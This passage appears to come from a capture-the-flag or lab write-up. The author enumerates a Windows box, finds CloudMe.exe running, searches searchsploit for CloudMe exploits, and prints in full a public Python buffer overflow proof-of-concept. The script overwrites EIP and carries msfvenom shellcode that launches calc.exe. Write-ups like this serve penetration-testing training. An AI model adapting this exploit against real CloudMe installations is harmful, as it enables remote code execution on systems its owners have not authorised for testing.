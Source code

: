 Out of all the running exe's, only the CloudMe.exe is uncommon, therefore warants more enumeration.

A quick check on searchsploit:


```
root@kali:/var/www/html/pub# searchsploit CloudMe
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)              | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)     | windows/local/48499.txt
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)    | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Byp | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow ( | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow         | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt     | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP By | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow             | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP  | windows_x86-64/remote/44784.py

```

The 48389 exploit appear promising and could lead to a root shell.
Reading through the exploit code, it appears to be a simple buffer overflow exploit which pops calc.

```
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload    = b"\xba\xad\x1e\x7c\x02\xdb\xcf\xd9\x74\x24\xf4\x5e\x33"
payload   += b"\xc9\xb1\x31\x83\xc6\x04\x31\x56\x0f\x03\x56\xa2\xfc"
payload   += b"\x89\xfe\x54\x82\x72\xff\xa4\xe3\xfb\x1a\x95\x23\x9f"
payload   += b"\x6f\x85\x93\xeb\x22\x29\x5f\xb9\xd6\xba\x2d\x16\xd8"
payload   += b"\x0b\x9b\x40\xd7\x8c\xb0\xb1\x76\x0e\xcb\xe5\x58\x2f"
payload   += b"\x04\xf8\x99\x68\x79\xf1\xc8\x21\xf5\xa4\xfc\x46\x43"
payload   += b"\x75\x76\x14\x45\xfd\x6b\xec\x64\x2c\x3a\x67\x3f\xee"
payload   += b"\xbc\xa4\x4b\xa7\xa6\xa9\x76\x71\x5c\x19\x0c\x80\xb4"
payload   += b"\x50\xed\x2f\xf9\x5d\x1c\x31\x3d\x59\xff\x44\x37\x9a"
payload   += b"\x82\x5e\x8c\xe1\x58\xea\x17\x41\x2a\x4c\xfc\x70\xff"
payload   += b"\x0b\x77\x7e\xb4\x58\xdf\x62\x4b\x8c\x6b\x9e\xc0\x33"
payload   += b"\xbc\x17\x92\x17\x18\x7c\x40\x39\x39\xd8\x27\x46\x59"
payload   += b"\x83\x98\xe2\x11\x29\xcc\x9e\x7b\x27\x13\x2c\x06\x05"
payload   += b"\x13\x2e\x09\x39\x7c\x1f\x82\xd6\xfb\xa0\x41\x93\xf4"
payload   += b"\xea\xc8\xb5\x9c\xb2\x98\x84\xc0\x44\x77\xca\xfc\xc6"
payload   += b"\x72\xb2\xfa\xd7\xf6\xb7\x47\x50\xea\xc5\xd8\x35\x0c"
payload   += b"\x7a\xd8\x1f\x6f\x1d\x4a\xc3\x5e\xb8\xea\x66\x9f"

```